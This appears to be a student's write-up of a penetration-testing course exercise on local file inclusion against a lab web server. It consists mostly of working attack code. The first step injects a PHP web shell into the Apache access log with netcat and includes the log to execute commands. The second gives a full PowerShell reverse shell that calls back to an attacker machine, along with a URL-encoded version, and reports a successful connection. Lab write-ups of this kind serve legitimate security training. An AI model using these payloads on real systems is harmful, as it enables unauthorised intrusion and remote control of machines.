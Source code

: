 ### 9.4.4.5 Exercises
#### 1. Obtain code execution through the use of the LFI attack.

1. Use netcat to send code

   ```bash
   # Connect to webserver
   netcat -nv 192.168.216.10 80
   # Send the code
   <?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>
   ```

2. Use the Log file in the LFI payload

   ```bash
   http://192.168.216.10/menu.php?file=c:\xampp\apache\logs\access.log&cmd=route print
   ```


   ![image-20200625120411592](.9.4.4.5.assets/image-20200625120411592.png)


#### 2. Use the code execution to obtain a full shell.

Using the same LFI as above, but submitted the following Powershell code:

```powershell
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.119.216',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

Encoded this for URL format using Burp Suite:

```bash
%70%6f%77%65%72%73%68%65%6c%6c%20%2d%63%20%22%24%63%6c%69%65%6e%74%20%3d%20%4e%65%77%2d%4f%62%6a%65%63%74%20%53%79%73%74%65%6d%2e%4e%65%74%2e%53%6f%63%6b%65%74%73%2e%54%43%50%43%6c%69%65%6e%74%28%27%31%39%32%2e%31%36%38%2e%31%31%39%2e%32%31%36%27%2c%34%34%33%29%3b%24%73%74%72%65%61%6d%20%3d%20%24%63%6c%69%65%6e%74%2e%47%65%74%53%74%72%65%61%6d%28%29%3b%5b%62%79%74%65%5b%5d%5d%24%62%79%74%65%73%20%3d%20%30%2e%2e%36%35%35%33%35%7c%25%7b%30%7d%3b%77%68%69%6c%65%28%28%24%69%20%3d%20%24%73%74%72%65%61%6d%2e%52%65%61%64%28%24%62%79%74%65%73%2c%20%30%2c%20%24%62%79%74%65%73%2e%4c%65%6e%67%74%68%29%29%20%2d%6e%65%20%30%29%7b%3b%24%64%61%74%61%20%3d%20%28%4e%65%77%2d%4f%62%6a%65%63%74%20%2d%54%79%70%65%4e%61%6d%65%20%53%79%73%74%65%6d%2e%54%65%78%74%2e%41%53%43%49%49%45%6e%63%6f%64%69%6e%67%29%2e%47%65%74%53%74%72%69%6e%67%28%24%62%79%74%65%73%2c%30%2c%20%24%69%29%3b%24%73%65%6e%64%62%61%63%6b%20%3d%20%28%69%65%78%20%24%64%61%74%61%20%32%3e%26%31%20%7c%20%4f%75%74%2d%53%74%72%69%6e%67%20%29%3b%24%73%65%6e%64%62%61%63%6b%32%20%3d%20%24%73%65%6e%64%62%61%63%6b%20%2b%20%27%50%53%20%27%20%2b%20%28%70%77%64%29%2e%50%61%74%68%20%2b%20%27%3e%20%27%3b%24%73%65%6e%64%62%79%74%65%20%3d%20%28%5b%74%65%78%74%2e%65%6e%63%6f%64%69%6e%67%5d%3a%3a%41%53%43%49%49%29%2e%47%65%74%42%79%74%65%73%28%24%73%65%6e%64%62%61%63%6b%32%29%3b%24%73%74%72%65%61%6d%2e%57%72%69%74%65%28%24%73%65%6e%64%62%79%74%65%2c%30%2c%24%73%65%6e%64%62%79%74%65%2e%4c%65%6e%67%74%68%29%3b%24%73%74%72%65%61%6d%2e%46%6c%75%73%68%28%29%7d%3b%24%63%6c%69%65%6e%74%2e%43%6c%6f%73%65%28%29%22
```

![image-20200625131951361](.9.4.4.5.assets/image-20200625131951361.png)

Once the URL was requested, the Windows machine connected back to Kali:

![image-20200625132119286](.9.4.4.5.assets/image-20200625132119286.png)